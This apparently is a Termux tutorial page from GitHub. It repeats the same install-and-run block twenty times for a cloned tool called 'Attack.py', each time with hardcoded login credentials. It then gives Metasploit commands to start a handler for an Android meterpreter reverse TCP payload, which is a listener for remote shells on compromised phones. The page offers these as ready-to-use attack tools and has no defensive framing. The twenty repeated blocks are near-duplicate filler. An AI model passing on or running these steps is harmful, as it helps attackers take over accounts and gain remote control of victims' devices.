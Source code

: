 
⭕No 1
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI

⭕No 2
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI
⭕No 3
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI
⭕No 4
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI
⭕No 5
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI
⭕No 6
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI
⭕No 7
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI
⭕No 8
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI
⭕No 9
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI

⭕No 10
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI
⭕No 11
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI
⭕No 12
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI
⭕No 13
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI
⭕No 14
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI
⭕No 15
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI
⭕No 16
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI

⭕No 17
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI
⭕No 18
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI

⭕No 19
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI

⭕No 20
apt update
apt upgrade
pkg install python
pkg install python2
pkg install git
pip2 install requests
pip2 install mechanize
git clone https://github.com/XIDIXP/World
cd World
python2 Attack.py

User Name : XIDI
Password   : XIDI

#Metasploit Commands
》》Requirements:-

1: Termux App (From Playstore)
2: Good Internet connection  (Must)
3: 2GB free Storage  (Must)
4: Android Version 5.0+ (Must)
5: 4GB+ RAM
6: Fast Processor

#installation

1: pkg update
2: pkg upgrade
3: pkg install unstable-repo
4: pkg install metasploit
5: msfconsole
6: use exploit/multi/handler
7: set payload android/meterpreter/reverse_tcp 
8: set lhost 
8: set lport 8080
10: exploit
